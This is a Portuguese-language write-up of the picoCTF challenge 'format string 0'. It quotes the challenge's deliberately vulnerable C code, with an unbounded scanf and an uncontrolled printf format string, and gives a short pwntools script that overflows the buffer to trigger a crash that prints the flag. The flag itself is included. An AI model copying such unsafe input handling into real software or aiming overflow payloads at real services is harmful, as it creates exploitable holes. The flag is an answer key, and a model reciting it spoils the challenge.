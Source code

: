 # WriteUp: format string 0
## Descrição do Desafio:
**Author**: Cheng Zhang \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/433?category=6&page=1) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Fácil \
**Data**: 2024 \
**Descrição**:
> Can you use your knowledge of format strings to make the customers happy?
## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
Este desaio nos fornece o seu código fonte, `.c`. Analisando ele, vemos que ele contém diversas funções, mas elas estão todas ali para te distrair, porque logo na `main()` podemos notar que é setado uma função para caso ocorra segmentation fault, e a função que é chamada imprime a flag para nós.
```c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

...........

int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}
```
Outra coisa muito interessante, é que na função `serve_patrick()`, podemos estourar um buffer que tem ali, causando segmentation fault.
```c
void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1); //Estouro de buffer.
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}
```

### 2. Solução
A solução é simples, basta estourar o buffer na função `serve_patrick()`.
### 2.1 Solução com Python
```py
from pwn import *

p = remote(ip, porta) #Troque pelos valores

payload = "A" * 100

p.sendlineafter(b"recommendation: ", payload)
print(p.recvall().decode())
```
### Flag
`picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}`
## Autor
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)

